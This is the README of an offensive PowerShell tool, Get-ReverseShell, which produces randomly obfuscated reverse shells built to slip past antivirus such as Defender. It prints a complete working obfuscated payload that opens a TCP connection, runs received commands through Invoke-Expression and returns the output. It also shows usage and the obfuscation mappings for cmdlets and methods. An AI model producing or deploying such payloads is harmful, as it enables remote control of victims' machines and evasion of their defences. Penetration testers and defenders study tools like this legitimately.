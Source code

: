 # Obfuscated PowerShell Reverse Shells

Get-ReverseShell is a project that stems from the Invoke-PSObfuscation framework, with the sole purpose of producing obfuscated reverse shells for PowerShell. With the way this framework is built, each component of the original payload goes through a randomly selected generator, resulting in a different yield with every execution of this script. 

___IMPORTANT___

Despite this script being built on Kali, you can also use it on Windows to produce these payloads. While I encourage you to keep this script on Kali, I have added some safeguards for those that will store this on a system with Antivirus installed, such as Windows with Defender enabled.

This script contains a function called `Get-Template` that produces the reverse shell payload that is passed through each of the generator functions. If the template script is stored in its raw state, it would be instantly flagged once it's written to disk or executed. To help prevent this from happening, the function has been relatively obfuscated. However, the obfuscated payloads themselves are fair game to store where you deem appropriate.

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated reverse shells are compatible on Windows/Linux systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.


┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-ReverseShell.ps1
```

If you run the script and supply only an IP address and port, then every supported script component will be obfuscated and output to the console.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

$9bu74RLxidUDk = & (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})(([string]::join('', ( (49,50,55,46,48,46,48,46,49) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_}),$(0+0-0-443+443+443));$kxjaLK6qrECXjf2 = ((& (("tFqYIQ1HnjmkK9PdoUbMzlCR27uv4yEpNxr85L-XSfWJhDiZTac3BGg6wesVOA0")[46,8,27,16,11,57,38,57,33,31,34,57,58,58,46,16,8] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,71,101,116,83,116,114,101,97,109,40,41) |%{ ( [char][int] $_)})) | % {$_})));[byte[]]$9uR0tN24DBEA9YsVNLOnIrx2s = 0..$($(0+60000)+$(0+0-0+5000)+(500)+($(35)))|%{;$_}|%{0};while(($5aH = $kxjaLK6qrECXjf2.Read($9uR0tN24DBEA9YsVNLOnIrx2s, 0, $9uR0tN24DBEA9YsVNLOnIrx2s.Length)) -ne 0){;$jIguPvaSK1ZilFymBVhTA = (& (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') -TypeName ([string]::join('', ( (83,121,115,116,101,109,46,84,101,120,116,46,65,83,67,73,73,69,110,99,111,100,105,110,103) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).GetString($9uR0tN24DBEA9YsVNLOnIrx2s,0, $5aH);$U = (& (("PljCFMKRq1-LpYeVWtNnku2Q8iJT0OzHg7Uxo5svyXh9GcAEawIb643dmfBSZrD")[50,19,39,36,20,14,10,47,35,12,61,14,38,38,25,36,19] -join '') $jIguPvaSK1ZilFymBVhTA 2>&1 |%{;$_}| & (("MTSO1XIqriP2ox4bGsuZtk0wEHhj9f8QnVdaBgcyLFN6Cz3DYWR-l5vUAmKJpe7")[3,18,20,51,2,20,8,9,32,37] -join '') );$GemSDxKaU = $U + $([char](30+87-30)+[char](97*72/97)+[char](106*65/106)+[char](21*84/21)+[char](0+32-0)+[char](88*87/88)+[char](0+72-0)+[char](0+69-0)+[char](0+82-0)+[char](51+69-51)+[char](80+62-80)+[char](42*32/42)) -replace $('W'+'H'+'E'+'R'+'E'),(& ([string]::join('', ( (71,101,116,45,76,111,99,97,116,105,111,110) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).Path -replace $([char](113*87/113)+[char](0+72-0)+[char](104*65/104)+[char](29+84-29)),([string]::join('', ( (80,83) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_});$xz1V87nrk4C9g2omRSHwHrTU1 = ([text.encoding]::ASCII).GetBytes($GemSDxKaU);$kxjaLK6qrECXjf2.Write($xz1V87nrk4C9g2omRSHwHrTU1,0,$xz1V87nrk4C9g2omRSHwHrTU1.Length);$($kxjaLK6qrECXjf2.Flush())};$((& (("KDU-6exQHZgPzTYpVCvijL79Nf4du5ns2F3oym8WSrbGOE10tIqcAJlBwRMhXak")[19,30,18,35,62,5,3,5,6,15,41,5,31,31,19,35,30] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,67,108,111,115,101,40,41) |%{ ( [char][int] $_)})) | % {$_})))
```

In lieu of having the output sent to the console, we can also have the output saved to a file instead.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -OutFile obfuscated.ps1

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Writing payload to obfuscated.ps1
```

Where this script has been built from `Invoke-PSObfuscation`, we have the ability to target specific script components. In addition to this, if we wanted to learn more about what was obfuscated and back trace the function that generated the obfuscated logic, we can include to the `ShowChanges` paramter. This paramter will instruct the script to display each targeted component, the obfuscated value that will be replacing it and the generator that was used. 

```shell
┌──(kali㉿kali)-[/home/kali/]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -Aliases -Cmdlets -Methods -ShowChanges

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Resolving aliases
[-] % >> ForEach-Object
[-] iex >> Invoke-Expression
[-] pwd >> Get-Location
[*] Targeting cmdlets
[-] Generator 1 >> New-Object >> & (("-FxDfVShXwGbQL92Ir4OAKiYvBce3EuUz6tTH8sqCM15aR7gZPdnyjJW0mlpoNk")[61,27,9,0,19,11,53,27,26,34] -join '')
[-] Generator 1 >> New-Object >> & (("AJkOmSpw2HGodY18EqsnlCX6iZbDx0yhKIueL9BRM-3NWUPQ5r7Fjaz4VfcvgTt")[43,35,7,41,3,26,52,35,58,62] -join '')
[-] Generator 2 >> Invoke-Expression >> & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_})
[-] Generator 1 >> Out-String >> & (("FKBgMmk43lvqcnoZEzWU1rHViJwpAQuOfxGbLC82Y5Ih9XNTd-syS6aDtPje0R7")[31,30,56,49,52,56,21,24,13,3] -join '')
[-] Generator 1 >> Get-Location >> & (("hmdf2Y5RJ8wNAF19rIVvOonG6ckpH4sSlx0QWqCyz3bBtUaguMZ-jiXPKELD7eT")[23,61,44,51,58,21,25,46,44,53,21,22] -join '')
[*] Targeting method invocations
$TuVIzXNvenGCmPU.GetStream() >> $($(($TuVIzXNvenGCmPU.GetStream())))
[-] Generator 2 >> $VaKhGdMJw6.Flush() >> $($(& ([string]::join('', ( (105,110,118,111,107,101,45,101,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_})([string]::join('', ( (36,86,97,75,104,71,100,77,74,119,54,46,70,108,117,115,104,40,41) |%{ ( [char][int] $_)})) | % {$_})))
$TuVIzXNvenGCmPU.Close() >> $($($($TuVIzXNvenGCmPU.Close())))
```
